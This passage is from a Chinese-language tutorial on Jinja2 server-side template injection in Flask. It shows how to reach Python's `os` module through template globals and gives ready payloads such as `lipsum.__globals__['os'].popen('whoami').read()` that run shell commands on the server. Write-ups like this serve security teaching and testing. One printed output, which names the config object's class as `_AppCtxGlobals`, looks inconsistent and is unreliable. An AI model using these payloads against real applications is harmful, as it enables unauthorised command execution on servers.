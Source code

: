 就说明我们可以利用`os`模块，紧接着我们就可以调用os模块，因为这个魔术属性`__globals__`是字典，所以我们可以`{{lipsum.__globals__['os']}}`或者`{{lipsum.__globals__.__getitem__('os')}}`：

```
Hi, <module 'os' (frozen)>.
```

我们可以通过`{{lipsum.__globals__['os'].__dir__()}}`查看可用属性：

```
Hi, ['__name__', '__doc__', '
...
awnvpe', 'spawnl', 'spawnle', 'spawnlp', 'spawnlpe', 'popen', '_wrap_close', 'fdopen', '_fspath', 'PathLike'].
```

我们发现了风险函数`popen`，于是就有了经典的payload：

```jinja2
{{lipsum.__globals__['os'].popen('whoami').read()}}
```

注意这里需要`.read()`来保证回显。

类似地，我们还可以用全局函数`url_for`来构造相同的payload：

```jinja2
{{url_for.__globals__.os.popen('ls').read()}}
{{get_flashed_messages.__globals__['os'].popen('dir').read()}}
```

#### 由`config`构造Payload

对于`config`，当我们在注入点输入`{{config}}`时可以得到回显为一长串字符，这根前面的情况都不一样。这是因为config是一个类对象，调用其本身会自动触发to String方法，因此我们可以通过`__class__`返回它的类，`{{config.__class__}}`：

```
Hi, <class 'flask.ctx._AppCtxGlobals'>.
```

我们依然希望仿照上面的方法，去获取一个函数的`__globals__`属性从而得到风险函数，因此我们希望获取一个类中的函数。

一般来说，类有许多自带的魔术方法可以利用，比如`={{config.__class__.__init__}}`就会返回：

```\
Hi, <function Config.__init__ at 0x7f91fe6304a0>.
```

这样我们就有了和上面一样的思路，因此我们构造有payload：

```jinja2
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

然而很多时候事实并非都如我们所愿，如果我们举一反三，尝试使用其他魔术方法比如`__str__`，构造一个payload`{{config.__class__.__str__}}`，我们会发现有回显：

```
Hi, <slot wrapper '__str__' of 'object' objects>.
```

这和我们使用init时有显著差异，当我们继续换一个魔术方法`__call__`时，`{{config.__class__.__call__}}`又会有：

```
Hi, <method-wrapper '__call__' of type object at 0x1b137e10>.
```
